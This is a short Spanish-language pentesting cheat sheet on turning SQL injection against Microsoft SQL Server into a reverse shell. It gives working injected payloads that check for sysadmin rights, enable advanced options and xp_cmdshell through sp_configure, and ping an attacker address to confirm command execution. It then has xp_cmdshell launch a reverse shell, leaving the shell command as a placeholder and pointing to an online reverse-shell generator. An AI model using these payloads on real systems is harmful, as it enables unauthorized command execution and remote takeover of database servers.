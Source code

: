 ### INFO
En primera instancia deberemos cerciorarnos de que nuestro user es SA(sysadmin).

    <dato>' AND IS_SRVROLEMEMBER('sysadmin')=1;--

Si la respuesta nos da true, podemos intentar conseguir una shell reversa abusando de xp_cmdshell.

1. Primero habilitamos las advanced options, esta respuesta deberia darnos false.

        ';exec sp_configure 'show advanced options','1';reconfigure;--

2. Habilitamos el xp_cmdshell, debería darnos false:

        ';exec sp_configure 'xp_cmdshell','1';reconfigure;--

3. Podriamos probar que todo esté funcional y haya conexión enviandonos un ping corriendo previamente tcpdump:

        sudo tcpdump -i <interfaz>

Luego enviamos el ping:

        ';exec xp_cmdshell 'ping /n 4 192.168.43.164';--

4. Si esto funciona, podriamos enviarnos una shell reversa

        ';exec xp_cmdshell '<shell reversa>'.


Podemos usar revshell para generar reverseshells de manera sencilla:

    https://www.revshells.com/
